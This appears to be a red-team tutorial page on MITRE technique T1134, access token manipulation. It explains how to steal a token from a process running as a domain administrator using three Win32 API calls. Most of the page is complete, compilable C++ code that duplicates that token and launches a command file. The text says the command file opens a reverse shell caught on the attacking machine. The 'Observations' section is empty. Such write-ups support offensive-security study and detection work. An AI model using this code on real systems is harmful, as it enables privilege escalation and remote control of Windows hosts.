 ```yaml
---
description: 'Defense Evasion, Privilege Escalation'
---
```


# T1134: Access Token Manipulation

## Execution

One of the techniques of token manipulations is token impersonation by creating a duplicate token of an already existing access token present in one of the running processes on the local host.

The process is as follows:

| Process step | Win32 API |
| :--- | :--- |
| Open a process which has the access token you want to steal. | `OpenProcessToken` |
| Make a duplicate token of the token in the process opened | `DuplicateTokenEx` |
| Create a new process with the newly aquired | `CreateProcessWithTokenW` |

Below is the C++ code implementing the above process. Note the variable `PID_TO_IMPERSONATE` that has a value of `3060`, which is a process ID that we want to impersonate aka steal its token, since it is running as a domain admin:

![A victim cmd.exe process that is running under the context of DC admin offense\administrator](../.gitbook/assets/tokens-victim-3060.png)

![](../.gitbook/assets/tokens-c++.png)

And this is the code if you want to compile and try it yourself:

{% code-tabs %}
{% code-tabs-item title="tokens.cpp" %}
```cpp
#include "stdafx.h"
#include <windows.h>
#include <iostream>

int main(int argc, char * argv[]) {
	char a;
	HANDLE processHandle;
	HANDLE tokenHandle = NULL;
	HANDLE duplicateTokenHandle = NULL;
	STARTUPINFO startupInfo;
	PROCESS_INFORMATION processInformation;
	DWORD PID_TO_IMPERSONATE = 3060;
	wchar_t cmdline[] = L"C:\\shell.cmd";
	ZeroMemory(&startupInfo, sizeof(STARTUPINFO));
	ZeroMemory(&processInformation, sizeof(PROCESS_INFORMATION));
	startupInfo.cb = sizeof(STARTUPINFO);	

	processHandle = OpenProcess(PROCESS_ALL_ACCESS, true, PID_TO_IMPERSONATE);
	OpenProcessToken(processHandle, TOKEN_ALL_ACCESS, &tokenHandle);
	DuplicateTokenEx(tokenHandle, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &duplicateTokenHandle);			
	CreateProcessWithTokenW(duplicateTokenHandle, LOGON_WITH_PROFILE, NULL, cmdline, 0, NULL, NULL, &startupInfo, &processInformation);
	
	std::cin >> a;
    return 0;
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Launching the tokens.exe from the powershell console spawns a reverse shell that the we catch on the attacking system. Note how the `powershell.exe` - the parent process of `Tokens.exe` and `Tokens.exe` itself are running under `PC-Mantvydas\mantvydas`, but the newly spawned shell is running under `OFFENSE\Administrator` - this is because of the successful token impersonation:

![](../.gitbook/assets/token-shell-impersonated.png)

## Observations

